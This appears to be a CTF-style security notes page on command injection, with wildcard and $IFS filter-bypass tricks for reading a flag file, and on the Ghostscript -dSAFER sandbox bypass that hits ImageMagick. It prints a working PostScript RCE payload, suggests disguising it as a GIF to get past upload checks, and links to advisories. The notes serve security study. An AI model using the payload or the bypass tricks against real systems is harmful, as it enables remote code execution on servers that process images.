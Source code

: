 # Command injection
In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  

Others from `convert xxx.jpg xxx` can trigger the RCE, someone found that `less .jpg` can also trigger it. But why?  
```php
strace -f -o trace_result.txt less xxx.jpg

// one is suspicious
execve("/bin/sh", ["sh", "-c", "/usr/bin/lesspipe.sh xxx.jpg"], [/* 10 vars */]) = 0
```  
Then we can find something in the `lesspipe.sh`, it use `identify` command of ImageMagick to output the information of jpeg.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)  
[用二進制的方式fuzzing ImageMagick漏洞](https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md)
